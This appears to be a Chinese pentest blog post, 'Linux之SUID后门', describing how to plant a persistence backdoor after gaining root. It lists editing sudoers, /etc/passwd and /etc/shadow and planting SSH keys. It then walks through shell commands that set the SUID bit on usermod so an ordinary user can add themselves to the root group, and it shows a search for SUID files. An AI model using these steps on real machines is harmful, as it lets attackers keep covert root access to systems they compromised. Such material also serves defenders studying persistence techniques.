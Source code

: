 +++
date = "2016-04-18T20:03:07+08:00"
description = ""
draft = false
tags = ["backdoor"]
title = "Linux之SUID后门"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:01
 * @LastEditTime: 2019-07-25 12:29:33
 -->

SUID可以用来做后门，前提是你已经获取了root权限，且给予s权限的文件必须为二进制

### 0x00 为二进制文件添加s权限从而提升为root权限
* 写sudoers添加用户  `//最佳方案`  
* vim /etc/passwd    `//将uid和gid改为0`
* vim /etc/shadow    `//密文覆盖`  
* vim root .ssh/证书文件   `.ssh这个文件夹和证书的权限要正确，要和原来一致`

### 0x01 SUID主要作用可以是留后门
* 在root权限下给usermod一个s权限
```bash
# which usermod   #得到usermod的路径                             
/usr/sbin/usermod
# chmod u+s /usr/sbin/usermod
# ls -l /usr/sbin/usermod
-rwsr-x---. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod
```

* usermod给其他人一个x权限
```bash
[root@localhost ~]# chmod o+x /usr/sbin/usermod
[root@localhost ~]# ls -l /usr/sbin/usermod
-rwsr-x--x. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod
```

* 切换到普通用户wyb
```bash
[wyb@localhost ~]$ id wyb
uid=500(wyb) gid=500(wyb) groups=500(wyb)
[wyb@localhost ~]$ usermod -g root wyb
[wyb@localhost ~]$ id wyb
uid=500(wyb) gid=0(root) groups=0(root)
[wyb@localhost ~]$ exit
```

* 验证
```bash
重新用wyb连接，此时即为root权限
[wyb@localhost ~]$ cd /root  #若能切换到此目录即证明确实获得了root权限
[wyb@localhost root]$ ls
anaconda-ks.cfg  install.log  install.log.syslog
```

### 0x02 查找拥有s权限的文件
* find / -perm -u=s -type f 2>/dev/null
